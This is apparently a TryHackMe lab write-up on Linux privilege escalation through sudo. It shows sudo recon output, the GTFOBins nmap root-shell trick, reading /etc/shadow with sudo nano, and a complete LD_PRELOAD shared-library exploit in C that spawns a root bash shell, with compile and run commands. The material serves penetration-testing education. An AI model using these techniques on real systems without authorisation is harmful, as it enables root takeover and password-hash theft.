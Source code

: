 ```yaml
---
layout: post
title: THM Linux Privilege Escalation - sudo
subtitle: Misusing sudo
date: 2025-04-05
tags:
  - pentest
  - tryhackme
  - redteam
  - linux
  - privesc
  - sudo
cover-img: /assets/img/sudo-priv-esc.png
thumbnail-img: /assets/img/linux-priv-esc.png
comments: true
mathjax: true
---
```

# Nature of the Task

In this task the goal is to use use `sudo` in a variety of ways to access information that would normally be out of limits to a low privilege user.

# A bit of `sudo` recon...

The first thing to do is to to run `sudo -l` as the `karen` (low privilege) user to see what's available to us:

```sh
$ sudo -l
Matching Defaults entries for karen on ip-10-10-92-255:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User karen may run the following commands on ip-10-10-92-255:
    (ALL) NOPASSWD: /usr/bin/find
    (ALL) NOPASSWD: /usr/bin/less
    (ALL) NOPASSWD: /usr/bin/nano
```

We can run 3 programs with `sudo`, namely `find`, `less`, and `nano`.

That answers the first question! Hooray!

# Capture the Flag! `find` and `cat`

The next question is to obtain the contents of `flag2.txt`. We can simply run `find` to locate the file on the system, we don't even need to run it with `sudo`!

```sh
$ find / -name "flag2.txt" 2>/dev/null
/home/ubuntu/flag2.txt
```
We can simply `cat /home/ubuntu/flag2.txt` to obtain our flag. No `sudo` needed!

# GTFOBins! `sudo nmap`

The next question requires a bit of research. *If* we had `sudo` access to `nmap`, how could we leverage this to obtain a `root` shell?

Let's head over to [GTFOBins](https://gtfobins.github.io/) and see what being able to run `nmap` with `sudo` could give us

![namp-search](/assets/img/GTFOBins-nmap-search.png)

Hmmm.... Shell? Sudo? Looks promising!

![nmap-sudo](/assets/img/GTFOBins-nmap-sudo.png)

So, looks like `sudo nmap --interactive` is enough to give us an interactive `root` shell.

# Hashed Passwords

Since we can run `sudo nano` we can simply open `/etc/shadow` and see the hash of Frank's password!

![etc-shadow](/assets/img/nano-etc-shadow-linux-priv-esc.png)

# `LD-PRELOAD`

If our `sudo -l` had found that `env_keep+=LD_PRELOAD` we could have leveraged this to get a root shell. On either the target or our attacking machine, we'd need to compile the following C source code  (`shell.c`):

```c
#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>  
  
void _init() {  
unsetenv("LD_PRELOAD");  
setgid(0);  
setuid(0);  
system("/bin/bash");  
}
```

We'd compile with the following parameters:

```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

We'd need to get it on the target in a writable directory that we could execute from, and then we'd run it as follows:

```sh
sudo LD_PRELOAD=/home/user/ldpreload/shell.so <any binary we can run with sudo>
```

# Recap and Takeaways

- `sudo -l` is your first stop in any privilege escalation attempt — it reveals what commands can be run as root.
    
- You don’t always need `sudo` to find flags; simple tools like `find` and `cat` still go a long way.
    
- GTFOBins is an essential resource — it tells you exactly how to weaponize `sudo` permissions for common binaries like `nmap`.
    
- Tools like `nano` and `less` may seem harmless, but with `sudo`, they let you read protected files like `/etc/shadow`.
    
- The `LD_PRELOAD` technique is powerful — if environment variables are preserved with `sudo`, it can be used to inject a shared library and pop a root shell.